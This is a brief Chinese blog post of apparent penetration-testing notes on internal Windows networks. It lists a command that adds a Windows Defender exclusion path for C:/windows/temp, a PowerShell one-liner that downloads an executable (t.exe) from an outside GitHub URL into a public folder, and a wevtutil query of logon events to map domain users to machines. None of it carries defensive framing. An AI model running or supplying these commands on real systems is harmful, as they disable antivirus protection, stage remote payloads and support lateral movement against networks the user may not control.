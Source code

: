 ```yaml
---
layout:     post
title:      "内网杂记"
subtitle:   "内网杂记"
date:       2023-01-29 12:00:00
author:     "cainiao3389"
header-img: "img/post-bg-desk.jpg"
catalog: true
tags:
    - 内网
---
```


## 内网杂记

cmd设置def白名单：powershell -c "Set-MpPreference -ExclusionPath  C:/windows/temp”

powershell下载：echo (new-object System.Net.WebClient).DownloadFile('https://github.com/coolbaby0001/123123123123/raw/main/t.exe,'c:\users\public\music\t.exe‘) | powershell -

域用户对应的域内机器：wevtutil qe security /format:text /q:"Event[System[(EventID=4624)] and EventData[Data[@Name='TargetUserName']='xxxxxx域用户']]" | find "Source Network Address"


